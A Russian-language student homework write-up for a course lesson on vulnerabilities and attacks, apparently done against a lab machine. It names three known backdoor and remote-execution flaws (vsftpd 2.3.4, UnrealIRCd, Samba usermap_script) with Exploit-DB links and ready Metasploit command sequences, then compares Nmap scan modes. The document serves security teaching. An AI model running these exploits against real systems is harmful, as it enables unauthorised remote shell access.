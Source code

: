 # Домашнее задание к занятию "`Уязвимости и атаки на информационные системы`" - `Петровский Дмитрий`


### Инструкция по выполнению домашнего задания

   1. Сделайте `fork` данного репозитория к себе в Github и переименуйте его по названию или номеру занятия, например, https://github.com/имя-вашего-репозитория/git-hw или  https://github.com/имя-вашего-репозитория/7-1-ansible-hw).
   2. Выполните клонирование данного репозитория к себе на ПК с помощью команды `git clone`.
   3. Выполните домашнее задание и заполните у себя локально этот файл README.md:
      - впишите вверху название занятия и вашу фамилию и имя
      - в каждом задании добавьте решение в требуемом виде (текст/код/скриншоты/ссылка)
      - для корректного добавления скриншотов воспользуйтесь [инструкцией "Как вставить скриншот в шаблон с решением](https://github.com/netology-code/sys-pattern-homework/blob/main/screen-instruction.md)
      - при оформлении используйте возможности языка разметки md (коротко об этом можно посмотреть в [инструкции  по MarkDown](https://github.com/netology-code/sys-pattern-homework/blob/main/md-instruction.md))
   4. После завершения работы над домашним заданием сделайте коммит (`git commit -m "comment"`) и отправьте его на Github (`git push origin`);
   5. Для проверки домашнего задания преподавателем в личном кабинете прикрепите и отправьте ссылку на решение в виде md-файла в вашем Github.
   6. Любые вопросы по выполнению заданий спрашивайте в чате учебной группы и/или в разделе “Вопросы по заданию” в личном кабинете.
   
Желаем успехов в выполнении домашнего задания!
   
### Дополнительные материалы, которые могут быть полезны для выполнения задания

1. [Руководство по оформлению Markdown файлов](https://gist.github.com/Jekins/2bf2d0638163f1294637#Code)

---

### Задание 1

![Описание](./img/1.1.png)
![Описание](./img/1.2.png)


1. vsftpd 2.3.4 – Backdoor Command Execution (CVE-2011-2523)
Описание: В этой версии VSFTPD есть бэкдор, позволяющий злоумышленнику получить shell на сервере, отправив специальную последовательность символов в поле имени пользователя.

Exploit-DB: https://www.exploit-db.com/exploits/17491

Команда для эксплуатации (в Metasploit):

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.130.70
exploit
2. UnrealIRCd 3.2.8.1 – Backdoor (CVE-2010-2075)
Описание: В некоторых сборках UnrealIRCd был встроен бэкдор, позволяющий выполнить произвольные команды.

Exploit-DB: https://www.exploit-db.com/exploits/16922

3. Samba (usermap_script) – RCE (CVE-2007-2447)
Описание: Уязвимость в Samba позволяет выполнить код через неправильную обработку скриптов в smb.conf.

Exploit-DB: https://www.exploit-db.com/exploits/16320

msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.130.70
exploit

---

### Задание 2

![Описание](./img/2.1.png)
![Описание](./img/2.2.png)
![Описание](./img/2.3.png)
![Описание](./img/2.4.png)
![Описание](./img/2.5.png)
![Описание](./img/2.6.png)
![Описание](./img/2.7.png)
![Описание](./img/2.8.png)
![Описание](./img/2.9.png)

1. Чем отличаются режимы сканирования?
| Режим  | Тип пакетов       | Ответ сервера (открытый порт) | Ответ сервера (закрытый порт) |
|--------|-------------------|--------------------------------|--------------------------------|
| SYN    | TCP SYN           | SYN-ACK                       | RST                           |
| FIN    | TCP FIN           | Нет ответа                    | RST                           |
| Xmas   | TCP FIN+PSH+URG   | Нет ответа                    | RST                           |
| UDP    | UDP-датаграммы    | Нет ответа / данные сервиса   | ICMP Port Unreachable         |

2. Как отвечает сервер?
SYN: Открытый порт → SYN-ACK, закрытый → RST.

FIN/Xmas: Открытый порт → молчит, закрытый → RST.

UDP: Открытый порт → молчит или данные сервиса, закрытый → ICMP Port Unreachable.